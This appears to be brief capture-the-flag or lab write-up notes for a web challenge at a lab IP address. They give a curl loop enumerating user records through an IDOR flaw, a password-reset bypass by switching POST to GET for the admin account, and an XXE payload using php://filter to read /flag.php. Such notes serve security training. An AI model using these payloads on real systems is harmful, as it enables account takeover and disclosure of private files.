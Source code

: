 1. Enumerate users (IDOR)
```shell-session
for i in {1..100}; do curl -s "http://94.237.48.12:39808/api.php/user/$i" -H "Cookie: PHPSESSID=d8sskie22digjhc13fra80lh62; uid=$i"; echo; done >> wow.txt
```
- Admin is uid 52

2. HTTP Verb Tampering
- Get token in change password portal for admin
- Change POST to GET and put the data as parameters: reset.php?uid=52&token=3253&password=test123

3. XXE
<!DOCTYPE name [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=/flag.php">
]>

<name>&company;<name/>

